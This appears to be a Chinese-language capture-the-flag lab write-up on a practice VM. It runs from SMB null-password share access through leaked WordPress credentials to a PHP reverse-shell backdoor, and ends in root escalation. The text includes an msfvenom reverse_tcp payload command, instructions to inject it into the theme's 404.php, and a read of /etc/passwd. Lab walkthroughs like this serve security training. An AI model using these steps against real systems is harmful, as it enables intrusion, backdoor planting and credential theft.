# SMB信息泄露练习题

## SMB简介

一种网络文件共享协议，主要用于共享资源

通常使用以下端口进行通信

> TCP端口445和139端口

Samba 是一个开源软件，它实现了 SMB 协议，使 Linux 和 UNIX 系统能够与 Windows 系统共享文件和打印机。

> FTP协议是文件传输协议，而SMB协议是文件共享协议

## 信息收集



当前靶机开放了22、80、139、445、3306端口，都可以利用起来

## 利用SMB协议

### 查看敏感信息

需要输入密码，尝试输入空口令成功通过



发现了三个共享文件：print\$\share\$\IPC\$

分别查看敏感文件



访问被拒绝



没有有用信息



可以访问，且存在不少文件，我们可以从中读取一些有用文件，deets.txt

> get 共享文件名 

打开deets.txt我们可以看到一些信息



有一个密码，但是不知道用途，咱们先记住，看看后续哪里用得着

**还有上一级wordpress目录，我们进入看看有没有敏感信息**



我们需要注意配置文件config，因为配置文件中一般含有用户名和密码

查看wp-config,php文件内容



显然我们得到了数据库的用户名和密码，也就是网站登录的账户密码TogieMYSQL12345^^

## 利用3306数据库

拿到这个账户密码，我们可以尝试远程访问一下该服务器的数据库



显然我们的访问被拒绝，另辟蹊径喽

## 利用http协议

浏览器访问网站并深度探测一下网站目录



找到wordpress/wp-admin，访问该网址

得到一个登录界面

输入我们刚才得到的账号密码看看

Admin:TogieMYSQL12345^^

成功登录得到这样一个界面



接下来的思路就是要利用Webshell木马反弹shell，监听提权

## webshell利用

### 制作webshell

使用msfvenom制作木马

> msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.13 lport=4444 -f raw



生成的php代码即为webshell

我们可以先创建一个文件保存它（前边的/*注释记得删掉）

### 开启监听



设置payload输入错了

### 找到webshell注入点





该编辑框则为注入点，将刚才生成的webshell注入并上传



然后访问192.168.1.14/wordpress/wp-content/themes/twentyfifteen/404.php则执行了后门木马



成功反弹shell



此时获得普通用户权限

该用户无法提权

## 提权

### 查看其他用户

> cat /etc/passwd



看到一个togie用户，并且是在home目录下，因此我们尝试用这个用户名



用刚才得到12345登录，成功登录~



当前用户可以用于提权



成功提权！



很奇怪，在root目录下没有找到flag.txt，这和网课里不大一样，反正提权成功了，不管了。

